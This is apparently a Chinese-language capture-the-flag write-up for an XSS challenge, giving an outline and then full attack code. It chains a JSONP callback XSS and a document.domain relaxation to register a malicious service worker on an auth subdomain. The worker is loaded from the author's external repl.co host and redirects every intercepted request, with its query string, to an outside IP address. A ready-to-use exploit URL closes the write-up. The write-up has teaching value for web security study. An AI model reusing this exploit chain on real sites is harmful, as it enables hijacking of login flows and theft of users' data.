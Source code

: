 整体思路



- 寻找一个jsonp-xss点   ➡️https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=alert(1)//

- 将两个子域降域 Bypass 同源
- 在xss子域中iframe拉取auth子域，并注入恶意Servive worker 拦截请求，发送至自己的vps
- 通过jsonp函数+script-src属性跨域加载js



test.js

```javascript
document.domain = "xss.eec5b2.challenge.gcsis.cn";
var iframetest = document.createElement('iframe');
iframetest.src = 'https://auth.xss.eec5b2.challenge.gcsis.cn/';
iframetest.addEventListener("load", function(){ 
	iframetest.contentWindow.eval(`navigator.serviceWorker.register("/api/loginStatus?callback=importScripts('//li3hiu.lihuaiqiu.repl.co/sw.js');//")`)
});
document.body.appendChild(iframetest);
```

sw.js

```javascript
self.addEventListener('install', function(event) {
        console.log('install ok!');
});
self.addEventListener('fetch', function (event) {
    var body = '<script>location="http://139.224.236.99?lih3iu"+location.search</script>';
    var init = {headers: {"Content-Type": "text/html"}};
    
    var res = new Response(body, init);
    event.respondWith(res.clone());
    
});
```

最终exp

```
https://xss.xss.eec5b2.challenge.gcsis.cn/login?callback=jsonp("https://li3hiu.lihuaiqiu.repl.co/test.js");
```



![0BMCrV.png](https://s1.ax1x.com/2020/10/08/0BMCrV.png)


